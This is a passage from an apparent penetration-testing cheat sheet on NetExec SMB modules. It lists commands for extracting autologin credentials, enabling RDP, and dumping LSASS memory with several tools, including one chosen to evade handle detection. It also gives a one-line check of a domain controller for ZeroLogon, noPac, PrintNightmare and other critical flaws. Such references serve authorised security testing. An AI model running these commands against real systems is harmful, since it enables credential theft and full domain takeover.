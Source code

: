 ```bash
nxc smb <ip> -u <user> -p <pass> -M gpp_autologin
```
{% endtab %}

{% tab title="RDP" %}
Enable RDP:

```bash
nxc smb <ip> -u <user> -p <pass> -M rdp -o ACTION=enable
```
{% endtab %}

{% tab title="LSASS" %}
Python-based, uses `impacket` to read the LSASS dump and `pypykatz` to extract credentials:

```bash
nxc smb <ip> -u <user> -p <pass> -M lsassy
```

Uses the Sysinternals `procdump` to create the LSASS dump and `pypykatz` to extract credentials:

```bash
nxc smb <ip> -u <user> -p <pass> -M procdump
```

Uses clone handles to create an obfuscated dump:

```bash
nxc smb <ip> -u <user> -p <pass> -M handlekatz
```

Opening a handle to LSASS can be detected, so it searches for existing handles, and if one is found, it copies it and creates a LSASS minidump:

```bash
nxc smb <ip> -u <user> -p <pass> -M nanodump
```
{% endtab %}
{% endtabs %}

### Vulnerabilities

The **most critical vulnerabilities**: from no creds/low privileges straight to `DA` !

{% tabs %}
{% tab title="Hail Mary" %}
Check for all at once:

{% code overflow="wrap" %}
```bash
$ nxc smb dc01 -u <user> -p <pass> -M zerologon -M nopac -M printnightmare -M smbghost -M ms17-010
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="ZeroLogon" %}
ZeroLogon (CVE-2020-1472) is a vulnerability in Microsoft’s Netlogon protocol that lets an attacker with network access spoof a DC, reset its password to blank, and **gain full domain admin rights—without any credentials**.
